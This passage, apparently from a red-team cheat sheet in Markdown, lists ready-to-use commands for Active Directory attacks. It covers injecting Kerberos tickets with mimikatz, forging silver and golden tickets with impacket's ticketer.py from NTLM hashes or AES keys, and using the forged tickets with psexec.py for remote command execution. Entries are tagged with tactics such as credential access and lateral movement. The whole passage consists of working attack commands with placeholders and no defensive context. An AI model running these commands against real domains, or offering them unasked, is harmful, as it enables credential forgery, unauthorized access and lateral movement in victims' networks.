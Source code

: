### inject TGT with mimikatz
- `mimikatz # kerberos::ptt <ticket_kirbi_file>`

---
# ticketer.py
- service: kerberos
- tactics: credential_access
- suites: impacket

## silver_ticket

### to generate the TGS with NTLM
- `python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`

### to generate the TGS with AES key
- `python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`

### set the TGT for impacket use
- `export KRB5CCNAME=<TGT_ccache_file>`

## golden_ticket

### to generate the TGT with NTLM
- `python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

### to generate the TGT with AES key
- `python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

### set the ticket for impacket use
- `export KRB5CCNAME=<TGS_ccache_file>`

> search for psexec.py, smbexec.py or wmiexec.py

---

# psexec.py
- service: rpc
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---